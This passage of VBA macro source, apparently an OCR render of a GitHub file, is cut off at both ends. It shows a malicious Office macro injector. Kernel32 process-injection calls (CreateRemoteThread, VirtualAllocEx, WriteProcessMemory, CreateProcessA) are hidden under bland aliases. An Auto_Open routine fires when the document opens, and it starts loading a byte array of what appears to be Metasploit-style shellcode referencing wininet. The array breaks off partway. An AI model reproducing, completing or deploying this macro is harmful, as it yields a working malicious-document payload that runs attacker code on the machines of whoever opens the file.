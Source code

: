```vba
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
    hStdOutput As Long
    hStdError As Long
End Type

#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
    Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
    Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
    Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If

Sub Auto_Open()
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

#If VBA7 Then
    Dim rwxpage As LongPtr, res As LongPtr
#Else
    Dim rwxpage As Long, res As Long
#End If
    myArray = Array(-4,-24,-119,0,0,0,96,-119,-27,49,-46,100,-117,82,48,-117,82,12,-117,82,20,-117,114,40,15,-73,74,38,49,-1,49,-64,-84,60,97,124,2,44,32,-63,-49, _
13,1,-57,-30,-16,82,87,-117,82,16,-117,66,60,1,-48,-117,64,120,-123,-64,116,74,1,-48,80,-117,72,24,-117,88,32,1,-45,-29,60,73,-117,52,-117,1, _
-42,49,-1,49,-64,-84,-63,-49,13,1,-57,56,-32,117,-12,3,125,-8,59,125,36,117,-30,88,-117,88,36,1,-45,102,-117,12,75,-117,88,28,1,-45,-117,4, _
-117,1,-48,-119,68,36,36,91,91,97,89,90,81,-1,-32,88,95,90,-117,18,-21,-122,93,104,110,101,116,0,104,119,105,110,105,84,104,76,119,38,7,-1, _
```